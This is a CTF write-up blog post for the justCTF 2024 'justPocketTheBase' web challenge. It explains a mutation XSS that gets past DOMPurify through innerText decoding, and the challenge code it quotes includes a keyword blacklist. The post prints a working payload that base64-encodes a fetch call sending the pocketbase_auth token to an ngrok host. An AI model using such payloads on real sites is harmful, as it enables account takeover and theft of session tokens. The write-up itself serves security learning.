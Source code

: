 ```yaml
---
layout: post
title: justCTF 2024 Teaser justPocketTheBase Writeup
subtitle: mXSS (Constant Suffering Syndrome)
mathjax: true
share-img: https://github.com/user-attachments/assets/0eb50bf1-0969-4a75-a102-fd50f58b7c45
cover-img: https://github.com/user-attachments/assets/0eb50bf1-0969-4a75-a102-fd50f58b7c45
tags: [CTFs Writeups, Web]
author: M411K
---
```


## justPocketTheBase ≈ 44 solves

![image](https://github.com/mwlik/mwlik.github.io/assets/73129654/1caba872-34a9-48f4-a5aa-80f069d78e2f)

This challenge took me some time, not because it was hard per-say, but because I've spent too much time focusing on stuff that wasn't vulnreable but seemed sus, things like pocketbase configuration setup, pocketbase file uploading naming normalization, I kept focusing on the side stories rather than the main story, but nonetheless every side quest gave me more insight on the technology used by the author, which is always good, espicially that I haven't had much exposure to pocketbase before now.

## Setup

The challenge uses pocketbase database in the backend, and svelte as the front-end framework responsible for communicating with the api's provided by pocketbase in the backend:

![image](https://github.com/mwlik/mwlik.github.io/assets/73129654/8aeead11-29be-4a8b-85bb-8583021954d6)

## Finding the XSS

From the start it was clear that you had to find an XSS, you have the bot, the main application where every user can post "plant" photos with their title, it was the classic setup.

So setting up to find the XSS, this block of code stands up:

```javascript
<script>
	import { onMount } from 'svelte';
	import { pb } from '$lib';

	let blacklist = [
		'window',
		'document',
		'cookie',
		'fetch',
		'navigator',
		'sendbeacon',
		'+',
		'_',
		'script',
		'!',
		'"',
		'#',
		'%',
		"'",
		'(',
		')',
		'*',
		'+',
		',',
		'-',
		'/',
		':',
		'?',
		'@',
		'[',
		']',
		';'
	];
	let id = null;
	let plant = null;
	let isLoading = true;
	let title;

	onMount(async () => {
		const params = new URLSearchParams(window.location.search);
		id = params.get('id');
		try {
			plant = await pb.collection('plants').getOne(id);
		} catch (error) {
			window.location.href = '/';
		} finally {
			isLoading = false;
		}
		setTimeout(() => {
			const sanitizedTitle = DOMPurify.sanitize(plant.title);
			const newTitleElement = document.createElement('div');
			newTitleElement.classList.add('title');
			newTitleElement.innerHTML = sanitizedTitle;
			const safe = newTitleElement.innerText;
			try {
				if (blacklist.some((word) => safe.toLowerCase().includes(word))) {
					throw new Error('not safe!!!');
				}
				title.innerHTML = safe;
			} catch (err) {
				window.location.href = '/';
			}
		}, 100);
	});
</script>
```

Its in `routes/view-plant/+page.svelte` route, this routing scheme is specific to svelte, and manages how the `url/view-plant/id=x` will behave.

```javascript
			const sanitizedTitle = DOMPurify.sanitize(plant.title);
			const newTitleElement = document.createElement('div');
			newTitleElement.classList.add('title');
			newTitleElement.innerHTML = sanitizedTitle;
			const safe = newTitleElement.innerText;
```

The DOMPurify library was on a stable version and finding a 0-day in this labeled `easy` challenge was surely out-of-scope (although its comming in later challenges :haha:), but this way of sanitizing the title, creating an element with that content, then taking the innerText of the latter, then finally adding it to the title element that gonna be displayed to the user was all just over-engineered and opened the door for a mutation XSS (shortened as mXSS), where I will provide HTML entities in the title `&lt;` (`<`), `&gt;` (`>`) which are normally secure, so DOMpurify will not clear them off, but with the first div element, those html entities will be decoded, so when taking in them back and piping them to the legit title, they will be litterally treated as `<`, `>`, and we can create a html tags with them, so now its only a matter of crafting a payload wich is fairly easy, here is my final working payload:

```
&lt;img src=1 onerror=location=atob`amF2YXNjcmlwdDpmZXRjaCgnaHR0cDovLzIudGNwLmV1Lm5ncm9rLmlvOjEwMDMwLycrYnRvYShsb2NhbFN0b3JhZ2UuZ2V0SXRlbSgicG9ja2V0YmFzZV9hdXRoIikpLCB7IG1vZGU6ICduby1jb3JzJ30p`&gt;
```

the base64 is just:

```javascript
javascript:fetch('http://2.tcp.eu.ngrok.io:10030/'+btoa(localStorage.getItem("pocketbase_auth")), { mode: 'no-cors'})
```

Surely after reporting my image, I get back the admin token in my flask server:

![image](https://github.com/mwlik/mwlik.github.io/assets/73129654/bfa22b15-0358-466c-af62-dd39f808b330)

![image](https://github.com/mwlik/mwlik.github.io/assets/73129654/cae7f544-21c7-4cc7-bbd7-908a440835d6)

By changing your token to the flag token, you get can view his uploaded image, and by applying exiftool to it, you find flag:

![image](https://github.com/mwlik/mwlik.github.io/assets/73129654/b037e1b7-2700-46e8-8809-845a23ef740f)

And Here you go!: `justCTF{97603333-6596-43fe-aef8-a134c1cc11b4}`
